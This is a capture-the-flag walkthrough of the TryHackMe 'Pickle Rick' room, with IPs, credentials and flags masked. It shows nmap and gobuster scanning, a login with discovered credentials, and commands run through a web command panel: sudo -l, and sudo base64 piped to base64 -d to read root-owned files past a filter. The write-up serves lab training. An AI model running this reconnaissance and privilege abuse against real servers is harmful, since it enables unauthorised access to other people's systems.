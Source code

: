 <!-- TOC -->

- [Pickle Rick](#pickle-rick)
    - [Discovery and Scanning](#discovery-and-scanning)
    - [Exploitation](#exploitation)

<!-- /TOC -->

# Pickle Rick

[Pickle Rick Room](https://tryhackme.com/room/picklerick)

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

| Title | IP Address |
| :---- | :---- |
| Pickle Rick | `1*.**.***.***` |

## Discovery and Scanning

```bash
sudo nmap -A -vv -T4 -oA initial 1*.**.***.***
```

> `80/tcp open **** syn-ack ttl 61 A***** h**** 2.4.18 ((Ubuntu))`

View Page Source: `http://1*.**.***.***`

> `Username: R***R****`

```bash
gobuster dir -u 1*.**.***.***:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,cer,css,htm,html,js,jsp,php,py,xhtml -t 100
```

> ```
> /index.html           (Status: 200) [Size: 1062]
> /login.php            (Status: 200) [Size: 882]
> /r*****.***           (Status: 200) [Size: 17]
> /assets               (Status: 301) [Size: 315] [--> http://1*.**.***.***/assets/]
> /portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
> /denied.php           (Status: 302) [Size: 0] [--> /login.php]
> /c***.***             (Status: 200) [Size: 54]                    
> /server-status        (Status: 403) [Size: 301]   
> ```

Go to: `http://1*.**.***.***/r*****.***`

> `W***************`

Go to: `http://1*.**.***.***/c***.***`

> `L*** a***** t** f*** s***** f** t** o**** i*********.`

## Exploitation

Using `R***R****:W***************`

To: `http://1*.**.***.***/login.php`

View Page Source: `http://1*.**.***.***/portal.php#`

> `<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->`

Decoded 7 times with `base64` -> `rabbit hole`

Using the Command Panel:

```bash
sudo -l
```

> `(ALL) NOPASSWD: ALL`

```bash
ls -la
```

> `-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 S****S*****P*****I*****.*** `

Go to: `http://1*.**.***.***/S****S*****P*****I*****.*** `

> `m*. m****** h***`

```bash
ls -la /home/rick
```

> `-rwxrwxrwx 1 root root   13 Feb 10  2019 s***** i**********`

```bash
base64 "/home/rick/s***** i**********" | base64 -d
```

> `1 j**** t***`

```bash
sudo ls -la /root
```

> `-rw-r--r--  1 root root   29 Feb 10  2019 3**.***`

```bash
sudo base64 "/root/3**.***" | base64 -d
```

> `3** i**********: f**** j****`
